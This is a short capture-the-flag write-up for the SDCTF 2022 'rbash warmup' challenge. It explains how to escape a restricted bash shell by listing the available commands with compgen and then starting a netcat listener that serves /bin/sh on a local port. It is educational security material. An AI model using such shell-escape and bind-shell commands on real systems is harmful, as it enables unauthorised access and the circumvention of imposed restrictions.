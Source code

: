 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | rbash warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: jail
challenge: rbash warmup
tags: "jail, twh, rbash, escape"
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## rbash warmup
> Solved By : thewhiteh4t

we can use `compgen` to check for available commands

```
compgen -c
```

![](https://i.imgur.com/bLD71b6.png)


another way is to use `echo`


![](https://i.imgur.com/chEZt6C.png)


now the known way of escaping with `nc` is by getting a shell on our “attacker” box but in this challenge we are not allowed to connect to remote machines so we are left with localhost

actually this is more easy…

```
nc -lvp 4444 -e /bin/sh &
```

![](https://i.imgur.com/DmtwlOo.png)


now we can connect to it !


![](https://i.imgur.com/JiBB1By.png)

